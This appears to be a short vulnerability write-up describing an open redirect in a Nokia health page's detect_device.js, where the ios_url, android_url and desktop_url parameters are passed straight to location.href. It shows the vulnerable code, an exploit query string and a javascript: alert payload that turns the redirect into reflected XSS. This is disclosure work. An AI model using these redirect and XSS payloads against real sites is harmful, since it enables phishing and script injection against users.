 #### hi when i visiting this link http://static.health.nokia.com/content/crm/redirect_url/ you can see this page
<img src='src/sc.png'>

### hmmm lets reading js files :v
#### in this file `http://static.health.nokia.com/content/crm/redirect_url/js/detect_device.js` you can see this lines

<img src='src/lines.png'>

#### from this code you can redirect the user to any website

#### if the vicitm using ios you need ios_url parameter

```javascript
    var ios_redirect = getURLParameter("ios_url");
    if (ios_redirect != null) {
      location.href = ios_redirect;
    }
```
#### Android you need android_url parameter

```javascript
  else if( userAgent.match( /Android/i ) )
  {
    var android_redirect = getURLParameter("android_url");
    if (android_redirect != null) {
     location.href = android_redirect;
    }
  }
```

#### others os you need desktop_url parameter

```javascript
  {
    var desktop_redirect = getURLParameter("desktop_url");
    if (desktop_redirect != null) {
      location.href = desktop_redirect;
    }
  }
```

### you can add all parameters in the url like this
`?desktop_url=http://google.com&android_url=http://google.com&ios_url=http://google.com` 
### working in all devices
### hmmm let's change it from open redirect to xss reflected using this payload 
`javascript:alert('@knassar702')`

<img src='src/xsso.png'>
